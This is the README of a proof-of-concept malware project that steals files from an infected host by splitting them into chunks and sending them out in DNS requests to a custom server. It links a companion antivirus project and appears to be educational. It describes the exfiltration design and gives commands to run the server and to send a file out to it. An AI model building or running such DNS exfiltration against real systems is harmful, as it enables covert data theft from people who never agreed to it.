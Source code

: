 # SwaggyPloop

This project contains the infrastructure for a piece of malware that exfiltrates data from a computer via DNS requests.
* The `client` folder contains the code for the malware client that searches an infected host for important files. It then chunks the files into 254 byte blocks and sends out the chunks to our custom server via a DNS request.
* The `dns` folder contains our own custom fork of the `dnspython` library, which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for incoming requests structured according to our custom request format and logs them in a database for later reconstruction.
* The `lib` folder contains the code that handles the encoding and packet structuring to break apart the files for transit as well as the code for reconstructing them on the server side. This folder also contains utility code for logging and querying into the database.
* The `web_interface` folder contains a web interface for viewing the data chunks logged in the database and allows for the reconstructed data to be visualized.

The accompanying antivirus can be found [here](https://github.com/CrMallard/Antibody)

## Setup
This project requires Python `>=3.5`. You may run it in the virtual environment of your choice.

### Custom DNS Server
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Exfiltrating a file (proof of concept)
```
pip install -r requirements.txt
python client/malware_client.py <file> [ip address of dns server]
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
* Chris Remillard (CrMallard)

